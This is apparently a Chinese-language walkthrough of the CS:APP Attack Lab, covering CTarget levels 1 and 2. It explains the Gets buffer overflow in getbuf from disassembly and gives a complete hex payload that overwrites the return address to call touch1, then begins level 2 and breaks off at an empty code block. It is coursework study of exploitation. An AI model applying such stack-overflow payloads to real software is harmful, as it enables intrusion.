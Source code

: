 # CSAPP - Attack Lab
## CTarget level 1

根据[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中的提示，用code-injection的方法使原程序执行想要的函数（touch1），主要用到的知识在书中的第三章的内存越界和缓冲区溢出章节可以看到。需要使用objdump反汇编可执行文件，找到目标函数touch1的入口地址为0x4017c0。攻击的原理是，程序运行时会调用Gets从标准输入读入字符串，但是Gets函数的实现是不安全的，没有进行边界检查，读入的字符串可能会超过缓冲区的大小。
```c
unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```
所以，让Gets函数读入超过在栈上分配的空间大小的字符串，同时覆盖栈帧上的返回地址（8字节），可以使得getbuf在返回的时候，ret指令读取$rsp指向的栈上的内容是我们想要的touch1函数入口地址。由于BUFFER\_SIZE是编译阶段确定的常量，需要从汇编代码中确定缓冲区的大小。
```x86asm
00000000004017a8 <getbuf>:
  4017a8:    48 83 ec 28              sub    $0x28,%rsp
  4017ac:    48 89 e7                 mov    %rsp,%rdi
  4017af:    e8 8c 02 00 00           callq  401a40 <Gets>
  4017b4:    b8 01 00 00 00           mov    $0x1,%eax
  4017b9:    48 83 c4 28              add    $0x28,%rsp
  4017bd:    c3                       retq   
  4017be:    90                       nop
  4017bf:    90                       nop
```

可以看到，在栈上分配了0x28即40字节的空间，所以当我们输入超过了40字节的字符串，利用Gets的不安全性，即可覆盖栈上的getbuf的返回地址。

实验工具中有一个叫做hex2raw的字节码转换工具，开始没弄懂什么意思，看了这篇[博文](https://mcginn7.github.io/2020/02/19/CSAPP-attacklab/)才想通。原来这个工具可以将我们输入的字符表示的十六进制字节码转换为字符串。注意，输入到hex2raw的每个字节（8bit）用两位十六进制数表示，用空格或换行符分开每个字节的十六进制表示。如下是使用示例：（字符'A'的ascii码是0x41）

所以要完成attack，需要输入48字节，由于x86是小端编址，低字节在低地址。每个字符依次从($rsp)填充到($rsp+47)所指向的位置，所以对于最后8个字节，我们应该先输入位于低字节的返回地址的后8位0xc0。最终的bytes内容是：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

用hex2raw转换后作为ctarget的输入，可以实现code-injection攻击(call touch1)。

## CTarget level2

这次的注入攻击不仅要求控制跳转，还需要执行一些额外的添加指令。要求执行函数touch2中的指定if分支，所以还需要设置touch2传递的参数。

```c
void touch2(unsigned val) {
    vlevel = 2;
    if (val == cookie) {
        printf("Touch 2! You have called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire! You have called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
由于不仅要使得getbuf函数结束后控制跳转到touch2，还必须设置参数val（第一个参数保存在$rdi)为cookie，才能正确触发攻击。先查看touch2的汇编代码：
```x86asm
```